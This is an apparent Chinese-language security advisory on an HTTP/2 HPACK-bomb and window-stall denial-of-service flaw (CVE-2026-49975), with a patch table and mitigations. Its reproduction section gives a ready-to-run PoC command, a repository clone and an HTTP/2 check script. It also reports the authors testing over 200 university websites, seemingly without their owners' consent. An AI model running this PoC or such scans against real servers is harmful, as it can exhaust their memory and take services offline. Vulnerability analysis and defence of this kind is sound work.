

### 0x00 概述

2026年6月2日，一个影响范围极广的HTTP/2协议层漏洞被公开披露，编号 **CVE-2026-49975**（QVD-2026-30962）。该漏洞源于HTTP/2头部压缩（HPACK）和流控制机制的组合性设计缺陷，攻击者无需身份验证，仅通过网络即可发起攻击，造成目标服务器内存耗尽、业务瘫痪。

该漏洞由安全研究员Quang Luong发现，其利用 AI工具 将两个已知十年的技术串联：**HPACK压缩炸弹**和**Window Stall流控停顿**，形成了一个极具破坏力的攻击链。

**影响量级：** 十万级网站
**CVSS 3.1：** 9.8（高危）
**利用可能性：** 高
**POC/EXP状态：** 已公开

---

### 0x01 漏洞原理

#### 1.1 HTTP/2 HPACK头部压缩

HTTP/2协议使用HPACK（RFC 7541）作为头部压缩算法。HPACK维护一个动态表（Dynamic Table），用于存储已发送的头部字段。发送方可以将一个头部插入动态表，之后通过**1字节的索引引用**来代表完整的头部字段，接收方在解码时会将索引引用展开为完整的头部内容。

这个设计的初衷是减少网络传输开销，平均可减少约30%的头部大小。但正是这种"1字节→N字节"的放大机制，成为了攻击者的利器。

#### 1.2 攻击链：HPACK Bomb + Window Stall

该漏洞的攻击链由两部分组成：

**第一部分：HPACK索引引用炸弹**

攻击者先向动态表插入一个头部（如Cookie），然后在后续请求中发送数千个指向该表项的1字节索引引用。服务器在解码时，需要为每个索引引用分配完整的头部内存。

```text
客户端发送：1字节索引引用 × 2048次 = 2,048字节网络流量
服务器分配：4,058字节 × 2,048次 ≈ 8MB内存
```

**第二部分：Window Stall流控停顿**

HTTP/2的流控制机制允许接收方通过`WINDOW_UPDATE`帧控制发送方的数据传输窗口。攻击者将初始窗口大小设为0（`INITIAL_WINDOW_SIZE=0`），服务器永远无法完成响应发送，已分配的内存永远不会被释放。

两部分结合：攻击者用极小的网络流量触发服务器大量内存分配，然后锁定这些内存不释放，最终导致服务器内存耗尽。

#### 1.3 为什么传统防御失效

该攻击利用的是HTTP/2协议层面的特性：

-   每个请求的头部"数量"在服务器看来可能只有1个（合并后的Cookie），绕过了头部数量限制
-   解码后的"大小"限制也不会触发，因为单个头部值本身不大，放大来自重复引用
-   请求体积和频率都很低，传统的请求阈值防御无法识别

---

### 0x02 影响范围

| 服务器 | 受影响版本 | 放大比 | 状态 |
| --- | --- | --- | --- |
| Envoy | ≤ 1.37.2 | ~5,700:1 | 未修复 |
| Apache httpd | ≤ 2.4.67 (mod\_http2 < 2.0.41) | ~4,000:1 | 已修复 |
| nginx | < 1.29.8 | ~70:1 | 已修复 |
| Microsoft IIS | 含 Windows Server 2025 | ~68:1 | 未修复 |
| Cloudflare Pingora | ≤ 0.8.0 | ~62:1 | 未修复 |

---

### 0x03 国内高校实测

我们使用仓库中的envoy PoC脚本（`envoy/hpack_cookie_bomb.py`），对国内多省市高校网站进行了HTTP/2 HPACK Bomb漏洞测试。测试参数统一为：

```bash
python3 envoy/hpack_cookie_bomb.py --host <目标> --port 443 --server-name <目标> \
  --connections 1 --streams 1 --refs 2048 --cookie-value-size 4058 --initial-window 0 --hold 10
```

> **说明：** 本次测试为非破坏性验证，仅验证漏洞是否存在，未进行实际资源消耗攻击。

#### 3.测试结论

本次测试共扫描200+所高校网站，覆盖重庆、北京、广东、四川四省市。其中**58所高校**的网站确认存在HTTP/2 HPACK Bomb漏洞，所有站点的放大比均在**1356:1至1357:1**之间，线上字节约6KB即可触发约8MB的内存分配。

值得注意的是，这些高校网站的服务器类型多为隐藏状态（未公开Server头部），但均支持HTTP/2协议且未对HPACK压缩进行安全限制。

---

### 0x04 漏洞危害分析

#### 4.1 攻击成本极低

-   攻击者仅需100Mbps带宽即可发起有效攻击
-   单个连接、单个请求即可触发大量内存分配
-   6KB网络流量 → 8MB服务器内存（放大比1357:1）
-   攻击持续10-20秒即可耗尽服务器32GB内存

#### 4.2 防御困难

-   传统WAF基于请求体积和频率的检测机制无效
-   每个请求在服务器看来只有1个头部，不触发头部数量限制
-   解码后单个头部值大小正常，不触发大小限制
-   攻击流量与正常HTTP/2流量无法区分

#### 4.3 影响严重

-   服务器内存被快速耗尽，导致OOM
-   被攻击的服务完全不可用
-   可能影响同一服务器上的其他业务
-   高校网站多为招生、教务等关键业务，影响面广

---

### 0x05 复现步骤

#### 5.1 环境准备

```bash
git clone https://github.com/califio/publications.git
cd publications/MADBugs/http2-bomb
pip install h2 hyper-h2
```

#### 5.2 验证目标HTTP/2支持

```python
import ssl, socket

ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE
ctx.set_alpn_protocols(['h2', 'http/1.1'])

with socket.create_connection(('www.example.edu.cn', 443), timeout=10) as sock:
    with ctx.wrap_socket(sock, server_hostname='www.example.edu.cn') as ssock:
        print('ALPN:', ssock.selected_alpn_protocol())
```

输出`ALPN: h2`表示支持HTTP/2。

#### 5.3 运行PoC

```bash
python3 envoy/hpack_cookie_bomb.py \
  --host www.example.edu.cn \
  --port 443 \
  --server-name www.example.edu.cn \
  --connections 1 \
  --streams 1 \
  --refs 2048 \
  --cookie-value-size 4058 \
  --initial-window 0 \
  --hold 10
```

成功输出示例：

```text
payload: refs=2048 cookie_value=4058B header_block=6130B estimated_final_cookie=7.9MiB per_stream wire_to_cookie=1357.1:1
conn=0 sent_streams=1 header_block=6130B frames=1 elapsed=0.000s
```

---

### 0x06 修复建议

#### 已有补丁的服务器

**nginx：** 升级至1.29.8+，该版本引入`max_headers`指令，默认限制1000个请求头。

**Apache httpd：** 升级至mod\_http2 v2.0.41+，该版本将Cookie头部计入`LimitRequestFields`限制。

#### 暂无补丁的服务器

**Microsoft IIS、Envoy、Cloudflare Pingora：** 截至本文发布时，官方尚未发布补丁。

#### 通用缓解措施

1.  **禁用HTTP/2：** 如业务允许，将服务回退至HTTP/1.1协议
2.  **部署CDN/反向代理：** 在受影响服务器前部署支持严格头部数量限制的中间网关
3.  **限制Worker内存：** 通过cgroups或ulimit为工作进程设置严格内存限制，避免单个Worker耗尽整机内存
4.  **配置双重限制：** 同时设置"最大解码头部大小"和"最大头部数量"两项独立限制
5.  **限制停滞流生命周期：** 对停滞流设置严格的生命周期上限，不受WINDOW\_UPDATE活动影响

---

### 0x07 参考资料

-   \[1\] HTTP/2 Bomb 原始研究博客：https://blog.calif.io/p/codex-discovered-a-hidden-http2-bomb
-   \[2\] PoC代码仓库：https://github.com/califio/publications/tree/main/MADBugs/http2-bomb
-   \[3\] RFC 7541 HPACK：https://www.rfc-editor.org/rfc/rfc7541
-   \[4\] RFC 9113 HTTP/2：https://www.rfc-editor.org/rfc/rfc9113
-   \[5\] CVE-2026-49975：https://www.cve.org/CVERecord?id=CVE-2026-49975
-   \[6\] CVE-2016-6581（早期HPACK Bomb）：https://nvd.nist.gov/vuln/detail/CVE-2016-6581
